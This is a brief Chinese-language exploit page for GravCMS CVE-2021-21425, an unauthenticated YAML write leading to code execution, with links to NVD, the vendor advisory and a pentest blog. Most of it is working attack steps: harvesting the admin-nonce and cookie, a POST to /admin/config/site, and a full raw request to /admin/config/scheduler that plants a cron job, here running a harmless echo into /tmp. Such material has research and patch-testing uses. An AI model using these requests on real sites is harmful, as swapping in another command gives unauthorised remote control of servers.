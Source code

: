 # GravCMS未经身份验证的任意YAML写入/RCE（CVE-2021-21425）

详情分析可以见：https://pentest.blog/unexpected-journey-7-gravcms-unauthenticated-arbitrary-yaml-write-update-leads-to-code-execution/

任意YAML文件写入：

* 1 –访问hxxp://target/admin URL.。
* 2 –获取cookie并从登录表单中提取admin-nonce值。
* 3-执行以下POST请求。


```
POST /admin/config/site HTTP/1.1
HOST: target
...

task=SavaDefault&data[title]=PWNED&admin-nonce=xxx
```

rce：

```
POST /admin/config/scheduler HTTP/1.1
Host: 192.168.179.131
Content-Length: 348
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.179.131
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.179.131/admin/forgot
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: grav-site-1dfbe94-admin=s2pca2cleqg78u8iit6v593h60
Connection: close
task=SaveDefault&data%5Bcustom_jobs%5D%5Bmdisec21%5D%5Bcommand%5D=/usr/bin/echo
&data%5Bcustom_jobs%5D%5Bmdisec21%5D%5Bargs%5D=1337
&data%5Bcustom_jobs%5D%5Bmdisec21%5D%5Bat%5D=*+*+*+*+*
&data%5Bcustom_jobs%5D%5Bmdisec21%5D%5Boutput%5D=/tmp/1.txt
&data%5Bcustom_jobs%5D%5Bmdisec21%5D%5Boutput_mode%5D=append
&admin-nonce=b78bb0a12604579896f9b4796dde8833
```

ref:

* https://nvd.nist.gov/vuln/detail/CVE-2021-21425
* https://github.com/getgrav/grav-plugin-admin/security/advisories/GHSA-6f53-6qgv-39pj
* https://pentest.blog/unexpected-journey-7-gravcms-unauthenticated-arbitrary-yaml-write-update-leads-to-code-execution/